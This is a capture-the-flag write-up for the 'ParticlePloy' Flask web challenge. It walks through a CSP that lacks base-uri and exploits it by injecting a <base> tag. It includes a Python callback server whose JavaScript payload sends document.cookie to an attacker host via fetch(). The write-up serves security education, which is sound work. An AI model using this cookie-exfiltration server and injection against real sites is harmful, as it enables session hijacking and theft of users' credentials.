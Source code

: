 ```yaml
---
layout: Post
format: chall
title: ParticlePloy
date: 2024-03-12
ctf: CSCBE Qualifiers
tags: [Flask, CSP, XSS]
category: [Web]
---
```

# ParticlePloy ⭐⭐

<a class="back-link" href="../../">< Go back</a>

## Description

A platform where you can create some nice particle visualizations.
Check it out but keep aware to make them visually appealing.

A website and [ParticlePloy/](./ParticlePloy/) were given.

## Challenge

### Reconnaisance

We have a particle creation webpage, lots of specific fields allow us to edit the particles.

More interestingly, `name` and `color` both are "string" type fields. This might come in handy.

Let's try to give it a random name and generate our particles. This gives a new webpage where we can see our particles in the background, this suggests that there is some javascript being executed in the background somewhere.

We are given the source code of the app for this challenge.

### Code analysis

Let's take a look around. `app/app.py` is pretty interesting, we learn that there are very strict rules for our two "string" fields we are mostly intersted in:

```py

class ParticleConfigForm(Form):
    name = StringField("A cool name for your particles!")
    # ...
    color = StringField(
        "Color (hexadecimal representation)",
        validators=[validators.Regexp(regex="^#([A-Fa-f0-9]{6}|[A-Fa-f0-9]{3})$")],
        default="#000000",
    )
    # ...
```

Appart from these strict rules, we also have a pretty heavy sanitization, using `html-sanitizer`.

And we also learn that a `custom_particle_config.js` file is generated for each particle:

```py
@blueprint.route("/particles/<uuid>/custom_particle_config.js", methods=["GET"])
def custom_particle_js(uuid):
    pc = db.get_particle_config(uuid)
    particles_config = pc["config"]

    return Response(
        response=render_template("particles.js", particles_config=particles_config),
        status=200,
        mimetype="application/javascript",
    )
```

Let's take a look at the template at `app/templates/particles.js`:

{% raw %}

```js
window.onload = function() {
    config = {{ particles_config }}
    config['selector'] = '.background';
    Particles.init(config);
};
```

Then this template gets injected and ran in `app/tempaltes/view.html`:

```html
<script nonce="{{ csp_nonce() }}">
    let script = document.createElement('script');
    script.src = document.getElementById('custom_particles').innerText;
    document.body.appendChild(script);
</script>
```

{% endraw %}

But it appears to be "nonce-protected". Let's take a look at the CSP configurations and at sanitization.

#### Protection

In `app/app.py` we find the following:

```py
def create_app() -> Flask:
    app = Flask(__name__)

    Talisman(
        app,
        force_https=False,
        content_security_policy={"script-src": ["'strict-dynamic'"]},
        content_security_policy_nonce_in=["script-src"],
    )
    # ...
```

This is a pretty strict CSP, but it allows for `strict-dynamic` scripts. This means that we can inject scripts as long as they are generated by the app itself. Which seems logical as that is what the app is meant to do. Cool we are starting to see a vector of attack.

Just below the `create_app` function we find the rules applied by `html-sanitizer`, though they are commented out and don't really apply any sanitization.

#### Admin

We've explored the `app/` folder let's take a look at the `admin-simulation/` now. Here we learn three things:

1. Both `app/` and `admin-simulation/` share the same database.
2. There is a `session` cookie that contains the FLAG!
3. The `admin-simulation/main.py` runs a headless browser that loads once every 2s each particle webpage, executing the `custom_particle_config.js` script in the process.

Okay we have an objective, and our vector of attack is getting clearer.

It appears we have to somehow inject malicious content inside the `custom_particle_config.js` script, and have the admin-simulation load it, if we manage to maybe get a simple request back to our server, we can steal the `document.cookies` and get the flag.

### Exploitation

#### Setting up our callback server

Let's not go too complicated on this, we just want a simple HTTPServer, that sends a new payload that requests the document.cookies when called:

```py
from http.server import BaseHTTPRequestHandler, HTTPServer

class Server(BaseHTTPRequestHandler):
    def do_GET(self):
        print("COOKIES:\n", self.headers['Cookie'])
        print("headers:\n", self.headers)
        print("URL:\n", self.path)
        js_code = '''
        var cookies = document.cookie;
        fetch(`https://<IP>?flag=${encodeURIComponent(document.cookie)}`, {
            method: 'GET',
        })
        '''
        self.send_response(200)
        self.send_header('Content-type', 'application/javascript')
        self.end_headers()
        self.wfile.write(js_code.encode('utf-8'))

def run(server_class=HTTPServer, handler_class=Server, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()

if __name__ == '__main__':
    run()

```

#### Crafting our payload

After looking at [csp-evaluator](https://csp-evaluator.withgoogle.com/) we can quickly see that the CSP configuration is missing a critical element, `base-uri`. This means that we can inject a `<base>` tag as the `name` of our particle and have it point to our malicious server.

So first step, start the malicious server.

Second generate a new particle with the following name:

```html
<base href="http://<IP>:8000/"/>
```

And finally, we get the flag as an URIEncoded element, let's just run it through CyberChef's "parse URI" tool and we get the flag.
